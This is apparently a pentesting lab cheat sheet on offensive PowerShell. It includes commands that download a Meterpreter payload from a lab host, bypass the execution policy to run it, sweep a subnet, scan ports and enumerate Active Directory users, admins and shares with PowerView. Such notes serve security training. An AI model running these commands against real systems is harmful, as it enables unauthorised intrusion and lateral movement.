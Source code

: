 # Powershell for Pentesters

## Manipulating Files

```powershell
# Start the notepad app
Start-Process notepad.exe

Get-Process -name notepad

# Export the process information to the csv format
Get-Process | Export-Csv running_process.csv

# Copy-Item , Move-Item
Copy-Item .\IP.txt copy_IP.txt

# Get file Hash
Get-FileHash -Algorithm SHA256 .\IP.txt
```

## Downloading Files

```powershell
# First Way
(New-Object System.Net.WebClient).Downloadfile('http://10.0.2.8:8888/meterpreter-64.ps1', 'meterpreter.ps1')

# Second Way
Invoke-WebRequest 'http://10.0.2.8:8888/meterpreter-64.ps1' -OutFile "meterpreter.ps1"
```

To get Execution policy we can run `Get-ExecutionPolicy -list`.

Execution policies can have seven different values;

- AllSigned: Scripts can run but require all scripts to be signed by a trusted publisher.

- Bypass: All scripts can run, and no warnings or prompts will be displayed.

- Default: This refers to “restricted” for Windows clients and “RemoteSigned” for Windows servers.

- RemoteSigned: Scripts can run, and this does not require local scripts to be digitally signed.

- Restricted: The default configuration for Windows clients. Allows individual commands to run, does not allow scripts.

- Undefined: This shows that no specific execution policy was set. This means default execution policies will be enforced.

- Unrestricted: Most scripts will run.

To by pass the ExecutionPolicy we can run
```powershell
# First way
powershell -ExectionPolicy Bypass -File .\meterpreter.ps1

# Second way: -scope make only be able run for current powershell session
Set-ExecutionPolicy Bypass -scope Process
```

## System Reconnaissance

`Get-HotFix` enumerate already installed patches. 

```powershell
# This will Grep for all that have InstallOn.
Get-HotFix | Format-list | findstr InstalledOn

Get-HotFix | Format-Table HotFixID
```

`Format-List` can be used to gather more information about objects.


The `Out-File` can be used to save the output to a file for further use.

```powershell
Get-HotFix | Out-File hotfix.txt
```

What Windows Security Update was installed on 5/15/2019?
Get-HotFix | Format-Table | findstr 5/15/2019

## Network Reconnaissance 

Following command can be used for ping a given IP range and grep for lines that include the "TTL" string. 

```powershell
1..15 | %{echo "10.0.2.$_"; ping -n 1 10.0.2.$_ | Select-String ttl}
```

This command check For all 1024 ports to see if is open or not.

```powershell
1..1024 | %{echo ((New-Object Net.Sockets.TcpClient).Connect("10.0.2.8", $_)) "open port on - $_"} 2>$null
```

## Using PowerView


Gather information about domain with the help of [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1).
To import `Import-Module .\powerview.ps1`.

`Get-NetDomainController` command will collect information on the domain controller. Knowing the IP address of the domain controller will be useful to
conduct man-in-the-middle attacks and to focus our efforts on high-value targets. 

`Get-NetUser` will list of domain users. 
```powershell 
Get-NetUser | out-gridview

# Values for a specific property can be listed. For example, if we wanted to list users' last logon dates and times we could use the "Get-NetUser | select -ExpandProperty lastlogon" command. 
Get-NetUser | select -ExpandProperty lastlogon
```

### Get-NetComputer

This command is useful to enumerate systems connected to the domain. This command can also be used with the “-ping” parameter to enumerate the systems that are currently online.
```powershell
Get-NetComputer -ping
```
In the instacetype shows how many system currently online.

### Get-NetGroup

Some accounts can be members of important groups, such as domain admins. Knowing which accounts have useful privileges or are a member of groups of interest will be useful for lateral movement and privilege escalation. The `Get-NetGroup` command will help us enumerate existing groups.
```powershell
Get-NetGroup "Domain Admins"
```

### Finding shares


`Find-DomainShare` will list available shares. Please note we have added the `-CheckShareAccess` option to list only readable shares.
```powershell
Find-DomainShare -CheckShareAccess 
```


### Enumerate Group Policy

Group Policy is used to configure computers connected to the domain. The `Get-NetGPO` command will gather information on enforced policies. 


### User Enumeration

Knowing which systems the current user can access with local administrator privileges can facilitate lateral movement. The `Find-LocalAdminAccess` command will list systems in the domain you may access as a local administrator.

The good source of powerview usage can be found [here](https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview)

 One of the accounts has a special description; what is it?
 ```powershell
 Get-NetUser -Properties description
 ```

 How many accounts are disabled?
 ```powershell
 Get-NetUser -Properties useraccountcontrol | findstr ACCOUNTDISABLE | measure
 ```

 How many users are in the “domain admins” group?
 ```powershell
 Get-NetGroupMember “Domain Admins” | measure
 ```

Which users are in the "domain admins" group? (Listed alphabetically, small, comma-separated, using space) 
```powershell
Get-NetGroupMember “Domain Admins” | Sort-Object MemberName | Format-Table MemberName
```

List shares; what is the name of the "interesting" share?
```powershell
Find-DomainShare
```

What is the name of the user-created Group Policy?
```powershell
Get-NetGPO -Properties displayname
```

What are the first names of users' whose accounts were disabled? (Sorted alphabetically, small, comma-separated, using space)
```powershell
Get-NetUser | Sort-Object displayname | Where-Object {$_.useraccountcontrol -like “*ACCOUNTDISABLE*”} | Select-Object -property displayname
```
